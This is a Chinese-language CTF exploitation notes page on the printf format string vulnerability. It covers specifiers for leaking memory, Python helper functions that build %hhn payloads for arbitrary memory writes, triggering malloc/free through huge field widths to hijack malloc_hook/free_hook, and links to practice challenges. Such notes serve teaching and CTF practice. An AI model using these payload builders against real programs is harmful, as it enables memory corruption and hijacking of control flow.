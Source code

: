 
# libc函数漏洞

# printf

著名的**格式化字符串漏洞**就不说啦~ `printf`家族的函数都存在这个漏洞

> printf,  fprintf,  dprintf,  sprintf,  snprintf, vprintf, vfprintf, vdprintf, vsprintf, vsnprintf 

## 常用格式

| 格式符 | 用途                           | 备注                                                         |
| ------ | ------------------------------ | ------------------------------------------------------------ |
| `%p`   | 以指针格式输出栈中变量的地址   | `$`用于指定位置参数，e.g.`%13$p`                             |
| `%s`   | 输出栈中指针指向的字符串       | 若指针不合法则输出`(nil)`                                    |
| `%a`   | 以double格式输出栈中变量       | 常见于`printf_chk`泄漏`libc`，详见[#1](#泄漏内存)            |
| `%c`   | 以char格式输出栈中变量         | 打印过多字符将调用`malloc`，详见[#2](#触发malloc)       |
| `%n`   | 将已输出的字符数保存到栈中指针 | 若指针不合法则报错<br />`%n`-4字节; `%hn`-2字节; `%hhn`-1字节 |

## 泄漏内存

`%p`用于泄漏内存就不多说了

用`%a`的时候要注意一下输出格式的问题，比如有如下输出：

```c
0x0.07fcf47895ap-1022
```

由于是小数的形式打印的，变量末尾的0会被自动省略掉，需要手动还原一下：

```c
0x07fcf4789500
```



## 任意写

### case1: buf足够大

如果buf足够大，可以考虑同时使用多个格式符，一次完成变量的修改。

下面是keer师傅的`%hhn`大法可以快速完成任意写，payload长度至少为`128`

```python
def fmt(data,addr,off):
    arg0=(data)&0xff
    arg1=(data&0xff00)>>8
    arg2=(data&0xff0000)>>16
    arg3=(data&0xff000000)>>24
    arg4=(data&0xff00000000)>>32
    arg5=(data&0xff0000000000)>>40
    print arg0,arg1,arg2,arg3
    # arg6=(data&0xf f000000000000)>>48
    # arg7=(data&0xf f00000000000000)>>56
    pay1='%'+str(arg0)+'c%'+str(off+10)+'$hhn'
    pay2='%'+str( (arg1-arg0+0x100)%0x100)+'c%'+str(off+11)+'$hhn'
    pay3='%'+str( (arg2-arg1+0x100)%0x100)+'c%'+str(off+12)+'$hhn'
    pay4='%'+str( (arg3-arg2+0x100)%0x100)+'c%'+str(off+13)+'$hhn'
    pay5='%'+str( (arg4-arg3+0x100)%0x100)+'c%'+str(off+14)+'$hhn'
    pay6='%'+str( (arg5-arg4+0x100)%0x100)+'c%'+str(off+15)+'$hhn'
    payload = pay1+pay2+pay3+pay4+pay5+pay6 # +'%100000c'
    payload = payload.ljust(8*10,'A')
    payload+= p64(addr)
    payload+= p64(addr+1)
    payload+= p64(addr+2)
    payload+= p64(addr+3)
    payload+= p64(addr+4)
    payload+= p64(addr+5)
    return payload
```

`%hhn`一次写1个字节，相当于是`byte/char`型，最大范围是`0xff`，所以`(arg1-arg0+0x100)%0x100`这样的溢出写法，可以在不排序的情况下准确覆盖变量。

由于每次只改1字节，使用`%hhn`快速完成任意写，不足之处就是payload太长。

### case2: buf不够大

如果buf长度不够，可以考虑重复利用`printf`，多次攻击完成变量的修改。

下面是藕自己写的模板，payload长度最少是`32`字节：

```python
def alter_byte(addr,data):
    if data==0:
        payload = "%10$hhn"
    else:
        payload = "%%%dc%%10$hhn"%(data)
    payload = payload.ljust(24,'T')
    payload += p64(addr)
    sl(payload)
    return rc()

def alter_dw(addr,data):
    alter_byte(addr,data&0xff)
    alter_byte(addr+1,(data>>8)&0xff)
    alter_byte(addr+2,(data>>16)&0xff)
    alter_byte(addr+3,(data>>24)&0xff)

def alter_qw(addr,data):
    alter_dw(addr,data)
    alter_dw(addr+4,data>>32)

```

>其中10是offset，用的时候改一下

## 触发malloc

`%100000c`表示在输出字符时向左侧填充空格，最终输出长度为`100000`的字符串。当字符串长度过大的时候，`printf`内部将调用`malloc`申请空间作为缓冲器，输出结束后会`free`掉这片空间。

利用方式：

* 篡改`malloc_hook`/`free_hook`，使用`%100000c`触发`malloc`/`free`，劫持程序控制流
* 和堆相关利用结合，利用`printf`隐试调用`malloc`

> 此外，从原理上看`%100000s`,`%10000d`等类似格式也可达到同样效果。

## 一次完成泄漏&修改
### 格式符`*`
* `%<N>d`这个很常用，打印长度为N的字符串，和`%<N>c`差不多

* `%*25$d`从栈中取变量作为`N`

  > 比如`25$`处的值是`0x100`，那么这个格式化字符串就相当于`%256d`

?> 那么可以理解为`*`相当于c语言取值符号...嘛？

刨根问底一下，查看`man`文档，找到`*`的用方法：

![](http://image.taqini.space/img/20200405185627.png)

根据文档写个栗子：

```c
int main(){
    int width=10;
    int num=2333;
    puts("\ncase1:");
    printf("%*d", width, num);    
    puts("\ncase2:");
    printf("%2$*1$d", width, num);
}
```

运行得到如下输出：

```
case1:
      2333
case2:
      2333
```

### 小结

* `*`如果单独使用，则**按顺序**取参数列表中的参数
* `*`如果配合`$`使用，则取参数列表中**相应位置**的参数，如`*1$`
* 取出的参数将格式化为**十进制数**，用作限制**字符串宽度**

### 用途

* 缩短格式化字符串长度

## 练习题

* [0CTF-EasiestPrintf](https://poning.me/2017/03/23/EasiestPrintf/)
* [ACTF-fmt64](http://taqini.space/2020/02/13/ACTF2020-writeup/#fmt64)
* [eonew-easy_printf](http://pwn.eonew.cn/) (根据Ex师傅平台的要求就不公开wp了) 
* [ACTF-chk_rop](https://github.com/TaQini/ctf/tree/master/ACTF2020/pwn/unsolved/chk_rop) (printf_chk)
* [MidnightSun2020-pwn4](http://taqini.space/2020/04/05/MidnightsunCTF-2020-pwn-pwn4/)(一次完成泄漏&修改)

> 更新日期：2020年 04月 05日 星期日 19:35:52 CST



# scanf



# abs


